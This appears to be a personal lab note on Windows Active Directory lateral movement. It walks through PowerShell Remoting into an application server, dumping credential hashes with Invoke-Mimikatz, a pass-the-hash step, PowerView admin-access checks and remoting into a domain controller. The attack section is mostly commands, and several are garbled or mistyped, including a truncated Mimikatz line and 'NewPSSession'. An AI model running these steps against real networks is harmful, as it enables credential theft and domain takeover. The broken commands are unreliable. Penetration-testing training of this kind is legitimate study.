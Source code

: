 ## LATERAL MOVEMENT

**Poweshell Remoting** uses WinRM and runs on 5985(Http) and 5986(Https). Comes by default on windows server 2012. 

Adversaries use these ports to connect to remote servers and execute commands upon Higher privilege.

Configuration: “**Enable-PSRemoting -SkipNetworkProfileCheck -Verbose -Force**” as an administrator.

```powershell
After checking which user has admin privilege over the domain controller or application
server and we've opened a powershell session with the privilege. 
Next thing we can do is to open a session on the **app-server.

$session = NewPSSession -ComputerName app-server -Verbose.
then run $session and the state should be opened

Invoke-Command -Session $session -ScriptBlock {whoami;ipconfig} -Verbose -** This command 
executes the whoami and ipconfig command on the app-server session(other words, on the 
application server).

Enter-PSSession -Session $session -Verbose. - To enter the app-server through the session
Type whoami to confirm that we are now in the app-server as the **emp_svc** user.
Type hostname to see that we are in the APP-SERVER.

**net user** to see the local users on the app-server
**klist** to list all kerberos tickets.

Run **Invoke-Mimikatz -ComputerName app-server -Verbose** - To dump hashes on the app-server
And now we have the app-server hash.

One of the users there is app-svc. We can inspect each user with **net user app-svc /domain
And app-svc** is a member of **domain admin** group. **Domain admin** group holds the highest 
privilege in a domain.
```

## Exploitation

```powershell
On the app-server, we run Invoke-Mimikatz.ps1
run **c 
/ntlm:hash /run:powershell.exe"' -Verbose.
Run . ./Powerview.ps1 script

Invoke-CheckLocalAdminAccess -ComputerName "DC-01.cyberwarfare.corp -Verbose - To check 
if the current or remote user has a local admin access on a machine(domain controller).

$sess = New-PSSession -ComputerName DC-01.cyberwarfare.corp -Verbose - Create new session 
on the domain controller.

Invoke-Command -Session $sess -ScriptBlock {ipconfig;whoami} -Verbose

Enter-PSSession -Session $sess -Verbose

Run whoami and we are now in the domain controller.**

```

